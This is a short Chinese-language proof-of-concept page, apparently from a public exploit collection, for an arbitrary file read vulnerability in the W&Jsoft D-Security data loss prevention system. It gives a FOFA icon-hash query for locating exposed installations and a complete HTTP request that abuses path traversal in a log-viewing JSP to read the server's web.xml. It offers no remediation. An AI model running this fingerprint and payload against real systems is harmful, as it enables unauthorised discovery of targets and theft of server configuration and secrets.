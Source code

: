 # W&Jsoft-D-Security数据仿泄露系统(DLP)存在任意文件读取漏洞
W&Jsoft-D-Security数据仿泄露系统(DLP)存在任意文件读取漏洞

## fofa
```javascript
icon_hash="616947260"
```

![](https://cdn.nlark.com/yuque/0/2024/png/1622799/1735566773129-315b9dc0-988c-47d2-a333-a2b6f4a7ec14.png)

## poc
```http
GET /DLP/public/admintool/system_setting/sys_ds_logfile_displaylog.jsp?logType=tomcat&logFileName=../../../../../../D-Security/webapps/DLPWebApps/WEB-INF/web.xml HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Priority: u=0, i
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:133.0) Gecko/20100101 Firefox/133.0
Upgrade-Insecure-Requests: 1
```

![](https://cdn.nlark.com/yuque/0/2025/png/29512878/1735835640864-6262a6b5-db98-4860-a798-d2a539429bfa.png)

